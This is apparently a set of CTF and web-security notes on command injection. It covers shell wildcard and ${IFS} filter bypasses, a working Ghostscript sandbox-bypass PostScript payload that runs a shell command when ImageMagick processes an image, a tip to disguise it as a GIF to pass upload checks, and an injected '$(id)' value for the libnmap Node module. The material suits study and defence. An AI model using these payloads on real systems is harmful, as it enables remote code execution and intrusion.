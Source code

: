 # Command injection
In CTF, we can directly cat flag with cmd injection. In real world, we can directly make a reverse shell with it.  
First, we can take a look at the power of wildcard...  
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass the limit on space character
cat${IFS}flag
cat$IFSflag
```

## ghostscript RCE
The sandbox `-dSAFER` of ghostscript has been bypassed! The sandbox is controlled by the `LockSafetyParams` param in the process, then `restore` of gs can overwrite the the param. Many application based on ghostscript would be influenced, such as the most famous application imageMagick. Following is the payload of POC.jpg:  
```php
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```  
Here, you can also forge it as gif with `gif89` header to deceive the file upload system.  
❗️ Attention: The timing to trigger the RCE is important.  

Others from `convert xxx.jpg xxx` can trigger the RCE, someone found that `less .jpg` can also trigger it. But why?  
```php
strace -f -o trace_result.txt less xxx.jpg

// one is suspicious
execve("/bin/sh", ["sh", "-c", "/usr/bin/lesspipe.sh xxx.jpg"], [/* 10 vars */]) = 0
```  
Then we can find something in the `lesspipe.sh`, it use `identify` command of ImageMagick to output the information of jpeg.  
[ref: mail of Tavis](http://openwall.com/lists/oss-security/2018/08/21/2)  
[ref: security team of imageMagick](https://imagetragick.com/)  
[ref: PostScript语言安全研究](https://paper.seebug.org/68/#0x03-ghostscriptimagemagick)  
[ref: ImageMagick-CVE-2016-3714](http://www.zerokeeper.com/vul-analysis/ImageMagick-CVE-2016-3714.html)  
[ref: 安全客ghostscript命令执行漏洞预警](https://www.anquanke.com/post/id/157513)  
[用二進制的方式fuzzing ImageMagick漏洞](https://github.com/lcatro/Fuzzing-ImageMagick/blob/master/%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8Fuzzing%E6%8C%96%E6%8E%98ImageMagick%E7%9A%84%E6%BC%8F%E6%B4%9E.md)  

## Command Injection in libnmap <Nodejs>
libnmap is the third party module for nodejs to access nmap. If attacker can control the scanned range of ip, it might cause to command injection.  
```js
range:[
	"a.b.$(id)"
]
```  
A very simple vulnerability  
[Hackerone report](https://hackerone.com/reports/390865)
